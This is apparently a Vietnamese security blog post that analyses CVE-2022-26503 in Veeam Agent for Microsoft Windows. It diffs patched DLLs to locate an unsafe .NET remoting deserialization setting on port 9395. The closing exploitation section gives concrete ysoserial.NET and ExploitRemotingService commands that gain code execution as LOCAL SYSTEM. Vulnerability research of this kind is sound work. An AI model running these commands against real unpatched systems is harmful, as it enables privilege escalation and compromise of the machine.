 Gần đây thì Veeam có đưa ra bản patch cho một loạt các lỗ hổng nghiêm trọng trên các sản phẩm của mình bao gồm: 

* [CVE-2022-26503](https://www.veeam.com/kb4289): ảnh hưởng tới Veeam Agent for Microsoft Windows.
* [CVE-2022-26500, CVE-2022-26501](https://www.veeam.com/kb4288),  [CVE-2022-26504](https://www.veeam.com/kb4290): ảnh hưởng tới Veeam Backup & Replication.

Trong bài viết này, mình sẽ phân tích về CVE-2022-26503. 

Sau khi đọc thông tin về CVE này chúng ta nắm được một số thông tin sau:


>Vulnerability (CVE-2022-26503) in Veeam Agent for Microsoft Windows allows local privilege escalation. An attacker who successfully exploited this vulnerability could run arbitrary code with LOCAL SYSTEM privileges.

>Veeam Agent for Microsoft Windows uses Microsoft .NET data serialization mechanisms. A local user may send malicious code to the network port opened by Veeam Agent for Windows Service (TCP 9395 by default), which will not be deserialized properly.

# Diff patch
Như thường lệ, công việc đầu tiên khi phân tích 1day thì ta sẽ cài đặt 2 version của product. Một version bị lỗi và một version là bản patch cho lỗi đó. Ở đây mình dùng 2 version là: [5.0.2.4680](https://download2.veeam.com/VAW/v5/VeeamAgentWindows_5.0.2.4680.zip) và [5.0.3.4708](https://download2.veeam.com/VAW/v5/VeeamAgentWindows_5.0.3.4708.zip).

Sau khi cài đặt cả 2 version ta kéo hết DLL của cả hai ra hai folder và tiến hành diff. Về công cụ thì các bạn có thể sử dụng `dnSpy` để extract hết DLL ra code C# và sau đó sử dụng `WinMerge` để diff cả hai folder. Tuy nhiên trong bài này thì mình dùng công cụ là `JustAssembly`  để diff trực tiếp các file DLL.
![image.png](https://images.viblo.asia/733228d9-287e-4bf6-bf68-87a5fddf1b51.png)

Ưu điểm của công cụ này là ta có thể diff trực tiếp dll mà không cần phải extract ra code C#. Đồng thời nó cũng có thể decompile trong trường hợp muốn nhìn kĩ hơn source code trong quá trình diff.

Sau khi tìm kiếm một hổi thì mình tìm thấy điểm khả nghi sau trong `Veeam.Common.Remoting.dll`

![image.png](https://images.viblo.asia/deca1b8b-ccff-4085-887b-1e64897c7cfd.png)

Vì sao lại sửa đổi ở chỗ này, mình sẽ nói kĩ hơn ở phần sau. Cho đến thời điểm hiện tại ta chỉ biết vị trí gây ra lỗi là ở thuộc tính `TypeFilterLevel` nằm trong class `CSrvTcpChannelRegistration`. Bây giờ ta sẽ đi phân tích sâu hơn để hiểu tại sao nơi này lại gây ra lỗi.

# Phân tích CVE-2022-26503
Theo như thông tin nắm được ở đầu bài viết, ta biết được nguyên nhân gây ra CVE này nằm ở việc local user có thể gửi gói tin độc hại đến port được sử dụng bởi Veeam Agent for Windows Service (mặc định là cổng 9395). 

Hãy cùng xem xét xem service nào đang sử dụng port 9395.

![image.png](https://images.viblo.asia/c8bd08e5-4c93-49a2-a6e8-894ebfff879e.png)

có thể thấy rằng `Veeam.Endpoint.Service.exe` đang được khởi chạy và lắng nghe ở port 9395. 

Xem xét file trên bằng cách load vào dnSpy.
![](https://images.viblo.asia/c0d313ef-9b01-4867-8998-0cb9aa47d2b0.png)

Quan sát thấy nếu chương trình chạy không có tham số truyền vào thì sẽ được chạy như là một service.
![image.png](https://images.viblo.asia/64dea2a6-b771-4e19-9c78-20fc2da3018f.png)


![](https://images.viblo.asia/ac4962ed-02d2-49ba-a9a5-061f1a2a05a9.png)
Chú ý method `OnStart`, khi được thực thi sẽ khởi tạo các biến môi trường (dòng 55). 
![](https://images.viblo.asia/38c99491-1343-407a-be64-103ab92a864d.png)

Tại đây chương trình sẽ thực hiện đăng kí một channel TCP với tên channel là `bstcp`, và port là `num2` chính là `BackupServerPort`. Trong đó `num2` nếu chưa được setvalue thì default sẽ là 9392, và nếu cổng đó đã được sử dụng thì sẽ tăng số cổng lên 1 cho đến khi hợp lệ. 

![image.png](https://images.viblo.asia/fcfb322e-8ca5-4505-9ea2-d48c8304cab6.png)

Tuy nhiên thì cổng này đã được setvalue ở một nơi khác là 9395. Nên cổng được đăng kí cho TCP channel sẽ là 9395.
![image.png](https://images.viblo.asia/c44f45c6-06ce-4039-8072-fe42fdeabc49.png)
Quay lại với việc đăng kí TCP channel, chương trình đăng kí channel với option `secure` được set là `true` và thuộc tính `TypeFilterLevel=Full`. 

Nếu các bạn còn nhớ thì ở đầu bài viết khi mà diff patch ta có nhận thấy đây là nơi gây ra lỗi, vậy nguyên do do đâu.

Lý do là chương trình sử dụng .NET remoting để trao đổi dữ liệu giữa client và server, và nếu thuộc tính `TypeFilterLevel` được set là `Full` thì nó sẽ deserialize request message gửi đến với tất cả các type. Điều này rất nguy hiểm bởi cơ chế hoạt động của .NET remoting là auto deserialize request message mà nếu không kiểm soát chặt chẽ type có thể deserialize thì rất dễ bị tấn công thực thi mã từ xa (RCE). 

![image.png](https://images.viblo.asia/3a8b5723-bb7a-44b4-b78e-04b39adbef4e.png)

Cần phải nói thêm về cơ chế trao đổi dữ liệu trong .NET remoting, nếu trao đổi ở kênh truyền TCP thì dữ liệu phải được serialize ở dạng binary sử dụng BinaryFormatter. Với những bạn đã tìm hiểu về lỗ hổng .NET deserialize thì sẽ biết rằng BinaryFormatter là một trong những formatter dễ tấn công nhất vì nó không yêu cầu chặt chẽ về type khi deserialize. Cụ thể về cơ chế trao đổi thông tin này bạn có thể đọc thêm ở bài viết sau của mình: [https://viblo.asia/p/net-remoting-la-gi-hacker-loi-dung-no-de-tan-cong-nhu-the-nao-naQZRR1vZvx](https://viblo.asia/p/net-remoting-la-gi-hacker-loi-dung-no-de-tan-cong-nhu-the-nao-naQZRR1vZvx)

Đến đây gần như ta đã có thể khai thác lỗi thông qua .NET remoting, tuy nhiên ta cần phải biết tên của service thì mới có thể khai thác thành công. Quay lại với method `OnStart`, thông qua document tại [đây](https://docs.microsoft.com/en-us/dotnet/api/system.serviceprocess.servicebase.onstart?view=dotnet-plat-ext-6.0#:~:text=OnStart%20is%20the%20method%20in,but%20this%20usage%20is%20rare.&text=Do%20not%20use%20the%20constructor,all%20initialization%20of%20your%20service.) ta được biết rằng method này sẽ tự động được thực hiện khi hệ điều hành khởi động. Khi xem xét kĩ hơn ở trong thân của `OnStart` thì cả nhánh If lẫn nhánh else đều gọi đến `CEpRemotingAPIRegistration.RegisterRemotingType(this)`. Từ đó dẫn đến đoạn code đăng kí dịch vụ có tên là `VeeamService` như hình dưới.

![](https://images.viblo.asia/0165766b-c284-4fd3-afc2-243924fac56c.png)

![](https://images.viblo.asia/b59e8606-3693-446a-8dd7-fa0f32ece5db.png)

# Khai thác
Thông qua một bài viết khác về .NET remoting đó là : [https://xz.aliyun.com/t/9605](https://xz.aliyun.com/t/9605). Tác giả giới thiệu một công cụ có thể sửa đổi gói tin TCP để khai thác lỗ hổng trên .NET remoting là [ExploitRemotingService](https://github.com/tyranid/ExploitRemotingService).

Để khai thác thành công chúng ta cần 2 bước:

1. Gen payload bằng ysoserial .NET, lưu ý là dùng gadget cho BinaryFormatter: `.\ysoserial.exe -g TypeConfuseDelegate -f BinaryFormatter -o base64 -c "calc"`
2. Gửi payload lên server sử dụng ExploitRemotingService: `.\ExploitRemotingService.exe --secure --tokenimpersonationlevel=Identification tcp://localhost:9395/VeeamService raw <payload_base_64_from_ysoserial>`


***PoC***
![](https://images.viblo.asia/e2a2fe06-6134-4293-9ed6-489dac25457f.gif)